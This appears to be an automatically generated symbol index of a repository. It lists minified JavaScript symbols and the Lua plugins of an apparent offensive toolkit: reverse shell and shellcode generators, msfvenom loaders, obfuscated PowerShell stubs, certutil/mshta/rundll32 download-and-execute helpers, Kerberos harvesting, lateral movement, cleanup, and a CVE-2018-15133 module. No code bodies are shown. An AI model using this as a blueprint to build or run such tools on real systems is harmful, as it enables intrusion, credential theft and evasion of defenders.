- `g` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `g` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `I` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `o` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `o` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `A` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `ov` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `mw` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `kw` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Ew` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Ow` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `qw` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `e` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `C` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `ik` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `nk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `sk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `dk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `lk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `fk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `yk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `bk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `kk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Ek` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Tk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Nk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Pk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Bk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Zk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Fk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Lk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Vk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Qk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Hk` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `dx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Tx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Px` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Bx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Zx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Fx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Lx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `Vx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `qx` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `gE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `t` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `CE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `l` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `f` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `nE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `dE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `lE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `o` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `uE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `vE` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `A` (line 33) - *! Hammer.JS - v2.0.17-rc - 2019-12-16 http://naver.github.io/egjs  Forked By Naver egjs Copyright (c) hammerjs * Licensed under the MIT license*
- `lO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `cO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `fO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `l` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `t` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `bO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `a` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `ZO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `u` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `LO` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************
- `e` (line 48) - *! ***************************************************************************** Copyright (c) Microsoft Corporation. Permission to use, copy, modify, and/or distribute this software for any purpose with or without fee is hereby granted. THE SOFTWARE IS PROVIDED "AS IS" AND THE AUTHOR DISCLAIMS ALL WARRANTIES WITH REGARD TO THIS SOFTWARE INCLUDING ALL IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS. IN NO EVENT SHALL THE AUTHOR BE LIABLE FOR ANY SPECIAL, DIRECT, INDIRECT, OR CONSEQUENTIAL DAMAGES OR ANY DAMAGES WHATSOEVER RESULTING FROM LOSS OF USE, DATA OR PROFITS, WHETHER IN AN ACTION OF CONTRACT, NEGLIGENCE OR OTHER TORTIOUS ACTION, ARISING OUT OF OR IN CONNECTION WITH THE USE OR PERFORMANCE OF THIS SOFTWARE. ******************************************************************************

#### `xterm-addon-fit-0.7.0.js`
**Path:** `static/js/xterm-addon-fit-0.7.0.js`

*No symbols extracted*

#### `xterm-addon-web-links-0.5.0.js`
**Path:** `static/js/xterm-addon-web-links-0.5.0.js`

**Functions:**
- `i` (line 1)
- `i` (line 1)
- `r` (line 1)
- `a` (line 1)

#### `xterm.js`
**Path:** `static/js/xterm.js`

**Classes:**
- `extends` (line 1)
- `extends` (line 1)
- `P` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `i` (line 1)
- `extends` (line 1)
- `c` (line 1)
- `l` (line 1)
- `d` (line 1)
- `c` (line 1)
- `e` (line 1)
- `o` (line 1)
- `a` (line 1)
- `r` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `n` (line 1)
- `S` (line 1)
- `k` (line 1)
- `i` (line 1)
- `r` (line 1)
- `n` (line 1)
- `extends` (line 1)
- `i` (line 1)
- `s` (line 1)
- `h` (line 1)
- `o` (line 1)
- `o` (line 1)
- `n` (line 1)
- `n` (line 1)
- `a` (line 1)
- `c` (line 1)
- `s` (line 1)
- `o` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `extends` (line 1)
- `c` (line 1)
- `l` (line 1)
- `n` (line 1)
- `extends` (line 1)
- `a` (line 1)
- `n` (line 1)
- `d` (line 1)

**Functions:**
- `r` (line 1)
- `i` (line 1)
- `i` (line 1)
- `t` (line 1)
- `e` (line 1)
- `t` (line 1)
- `e` (line 1)
- `s` (line 1)
- `e` (line 1)
- `i` (line 1)
- `s` (line 1)
- `i` (line 1)
- `i` (line 1)
- `r` (line 1)

### LUA (26 files)

#### `generate_c_reverse_shell.lua`
**Path:** `plugins/generate_c_reverse_shell.lua`

**Functions:**
- `generate_c_reverse_shell` (line 1)
- `all` (line 108)

#### `generate_cleanup_commands.lua`
**Path:** `plugins/generate_cleanup_commands.lua`

**Functions:**
- `generate_cleanup_commands` (line 3)

#### `generate_html_payload.lua`
**Path:** `plugins/generate_html_payload.lua`

**Functions:**
- `generate_html_payload` (line 1)

#### `generate_lateral_command.lua`
**Path:** `plugins/generate_lateral_command.lua`

**Functions:**
- `generate_lateral_command` (line 4)

#### `generate_linux_asm_reverse_shell.lua`
**Path:** `plugins/generate_linux_asm_reverse_shell.lua`

**Functions:**
- `generate_linux_asm_reverse_shell` (line 1)
- `all` (line 121)

#### `generate_linux_raw_shellcode.lua`
**Path:** `plugins/generate_linux_raw_shellcode.lua`

**Functions:**
- `generate_linux_raw_shellcode` (line 1)

#### `generate_lolbird.lua`
**Path:** `plugins/generate_lolbird.lua`

**Functions:**
- `write_file` (line 4)
- `read_file` (line 12)
- `xor_hex_string` (line 21)
- `xor_string` (line 31)
- `generate_lolbird_ps1` (line 44)
- `Xor` (line 64)

#### `generate_msfvenom_loader.lua`
**Path:** `plugins/generate_msfvenom_loader.lua`

**Functions:**
- `execute_command_to_file` (line 2)
- `read_file` (line 7)
- `hex_to_nasm` (line 18)
- `generate_loader` (line 49)
- `generate_msfvenom_loader` (line 104)

#### `generate_msfvenom_loader_windows.lua`
**Path:** `plugins/generate_msfvenom_loader_windows.lua`

**Functions:**
- `generate_msfvenom_loader_windows` (line 2)

#### `generate_reverse_shell.lua`
**Path:** `plugins/generate_reverse_shell.lua`

**Functions:**
- `generate_reverse_shell` (line 1)

#### `generate_stub.lua`
**Path:** `plugins/generate_stub.lua`

**Functions:**
- `write_file` (line 4)
- `read_file` (line 12)
- `xor_data` (line 21)
- `xor_string` (line 30)
- `generate_stub_ps1` (line 43)

#### `init_plugins.lua`
**Path:** `plugins/init_plugins.lua`

**Functions:**
- `load_plugin` (line 6)

#### `kerberos_harvest.lua`
**Path:** `plugins/kerberos_harvest.lua`

**Functions:**
- `kerberos_harvest` (line 1)

#### `lolbas_bitsadmin_exe.lua`
**Path:** `plugins/lolbas_bitsadmin_exe.lua`

*No symbols extracted*

#### `lolbas_certutil_download_exec.lua`
**Path:** `plugins/lolbas_certutil_download_exec.lua`

**Functions:**
- `write_file` (line 5)
- `read_file` (line 13)
- `xor_data` (line 21)

#### `lolbas_certutil_exe.lua`
**Path:** `plugins/lolbas_certutil_exe.lua`

**Functions:**
- `run_msfvenom` (line 2)

#### `lolbas_mshta_js.lua`
**Path:** `plugins/lolbas_mshta_js.lua`

*No symbols extracted*

#### `lolbas_mshta_reverse_shell.lua`
**Path:** `plugins/lolbas_mshta_reverse_shell.lua`

*No symbols extracted*

#### `lolbas_rundll32_dll.lua`
**Path:** `plugins/lolbas_rundll32_dll.lua`

*No symbols extracted*

#### `lolbas_wmic_xsl_execution.lua`
**Path:** `plugins/lolbas_wmic_xsl_execution.lua`

**Functions:**
- `write_file` (line 4)

#### `parse_nmap_with_xmlstarlet.lua`
**Path:** `plugins/parse_nmap_with_xmlstarlet.lua`

**Functions:**
- `parse_nmap_with_xmlstarlet` (line 1)

#### `run_nuclei_on_nmap_files.lua`
**Path:** `plugins/run_nuclei_on_nmap_files.lua`

**Functions:**
- `run_nuclei_on_nmap_files` (line 1)

#### `run_python_rev_c2.lua`
**Path:** `plugins/run_python_rev_c2.lua`

**Functions:**
- `run_python_rev_c2` (line 2)

#### `rundll32_sct_from_url.lua`
**Path:** `plugins/rundll32_sct_from_url.lua`

**Functions:**
- `write_file` (line 4)
- `read_file` (line 12)
- `base64_encode` (line 22)
- `generate_sct` (line 58)

#### `validate_shellcode.lua`
**Path:** `plugins/validate_shellcode.lua`

**Functions:**
- `hex_to_bytes` (line 2)
- `esc_hex_to_bytes` (line 21)
- `hex_list_to_byte_values` (line 65)
- `validate_shellcode` (line 81)

#### `visualize_network.lua`
**Path:** `plugins/visualize_network.lua`

**Functions:**
- `visualize_network` (line 1)

### PHP (1 files)

#### `CVE-2018-15133.php`
**Path:** `modules/CVE-2018-15133.php`

*No symbols extracted*

### PY (887 files)

#### `__init__.py`
**Path:** `__init__.py`

